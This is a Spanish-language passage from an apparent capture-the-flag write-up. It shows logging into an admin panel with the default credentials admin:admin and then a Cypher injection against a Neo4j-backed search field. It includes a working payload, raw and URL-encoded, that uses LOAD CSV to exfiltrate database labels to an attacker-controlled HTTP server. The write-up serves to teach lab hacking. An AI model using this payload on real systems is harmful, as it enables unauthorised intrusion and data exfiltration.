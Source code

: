 Viéndolo más de cerca, parece ser un servicio completamente distinto

![Admin](/assets/writeups/only4you/5.png)

Intentando utilizar contraseñas por defecto funciona, el conocido par `admin:admin` es utilizado aquí, al acceder nos muestra un panel de estadisticas y una parte para buscar empleados, interceptando la petición nos muestra esto

`search=asd`

Si le ponemos una comilla, el servidor mostrará un error, pero luego si intentamos introducir cualquier comando SQL conocido también nos motrará un error; sucede que esta web está utilizando el Neo4J que vimos antes y no el MySQL.

Una inyección en este lenguaje nos puede facilitar más aún filtrar datos sensibles gracias a funciones como `LOAD CSV`, pero vamos a dar un poco de introducción antes: Si has leído como funciona este RDBMS debes saber que no utiliza tablas ni documentos, utiliza los conocidos grafos para almacenar datos, una query típica en este lenguaje se ve como

```s
MATCH (n: User) WHERE n.name = 'hackerman' RETURN n
```

Donde n son los nodos almacenados, User una etiqueta de datos y `name` es una propiedad.

Hay varias cosas que podemos intentar sacar, empezando por las llamadas labels existentes en la base de datos, investigando por la documentación oficial de Cypher y por otras páginas podemos armarnos una query como esta

```bash
# MATCH (n: Employee) WHERE n.name = '' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.208:8000/?uwu=' + label AS l RETURN 0 AS _0 // RETURN n
search='+OR+1%3d1+WITH+1+as+a+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'http%3a//10.10.14.208:8000/%3fuwu%3d'+%2b+label+as+l+RETURN+0+as+_0+//
```

Teniendo un servidor HTTP en el puerto 8000, recibimos las siguientes peticiones:
